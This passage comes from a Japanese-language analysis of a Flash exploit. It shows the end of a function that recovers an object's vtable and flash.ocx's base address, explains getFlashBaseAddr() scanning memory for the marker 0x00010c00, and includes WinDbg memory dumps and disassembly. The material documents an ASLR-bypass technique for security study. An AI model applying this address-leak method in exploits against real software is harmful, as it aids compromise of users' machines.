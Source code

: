 ```
          ocxinfo[2] = k; 
          ocxinfo[3] = vtableobj; 
          return ocxinfo; 
        }

        k = k + 0x1000; 
      } 
    }

    j = j + 0x1; 
  }

  return ocxinfo; 
} 
```
 
flash.ocx のベース アドレスを取得するロジックは getFlashBaseAddr() です。この中で最初にすることは、0x00010c00 という DWORD 値を見つけることです。以下は 1a000000 から検索していますが、実際にアクセス可能なのは 1a001008 からです。

 
```
0:028> s -d 1a000000 l1000000 0x00010c00 
0:028> s -d 1e000000 l1000000 0x00010c00 
0:028> s -d 22000000 l1000000 0x00010c00 
2272f000  00010c00 00000fe0 07c53000 07c47068  .........0..hp.. 
22733000  00010c00 00000fe0 07c53000 07c47068  .........0..hp.. 
22805000  00010c00 00000fe0 07c53000 07c47068  .........0..hp.. 
229d6000  00010c00 00000fe0 07c53000 07c47068  .........0..hp.. 
25393000  00010c00 00001fe0 07c53000 07c47068  .........0..hp.. 
253b3000  00010c00 00004fe0 07c53000 07c47068  .....O...0..hp.. 
253b8000  00010c00 00004fe0 07c53000 07c47068  .....O...0..hp.. 
0:028> dd 2272f000 l10 
2272f000  00010c00 00000fe0 07c53000 07c47068 
2272f010  08387000 2272f018 00000010 00000000 
2272f020  70bc6234 00000080 07d2e400 07d32400 
2272f030  00000019 00000050 00000000 00000000 
0:028> dd 22733000  l10 
22733000  00010c00 00000fe0 07c53000 07c47068 
22733010  2272f000 22733018 00000018 00000000 
22733020  70bc5dc8 07fb9e50 07e52790 07ca9cf0 
22733030  07fb08a0 00000000 00000022 00000000 
0:028> dd 70bc6234 
70bc6234  709871c0 7097c8b0 00000000 00000000 
70bc6244  00000000 00000000 00000000 00000000 
0:028> u 709871c0 
Flash!IAEModule_AEModule_PutKernel+0x304ae0: 
709871c0 55              push    ebp 
709871c1 8bec            mov     ebp,esp 
709871c3 f6450801        test    byte ptr [ebp+8],1 
709871c7 56              push    esi 
709871c8 8bf1            mov     esi,ecx 
709871ca 8bc6            mov     eax,esi 
709871cc c706f066a570    mov     dword ptr [esi],offset Flash!IAEModule_IAEKernel_UnloadModule+0x1ca 
50 (70a566f0) 
709871d2 7410            je      Flash!IAEModule_AEModule_PutKernel+0x304b04 (709871e4) 
0:028> dd 70bc5dc8 
70bc5dc8  709871c0 70920ae0 709871c0 70920b30 
70bc5dd8  709787d0 70920a10 75746572 74206e72 
70bc5de8  73657079 6e6f6420 616d2074 0a686374 
70bc5df8  00000000 76202020 20747269 00000000 
0:028> u 709871c0 
Flash!IAEModule_AEModule_PutKernel+0x304ae0: 
709871c0 55              push    ebp 
```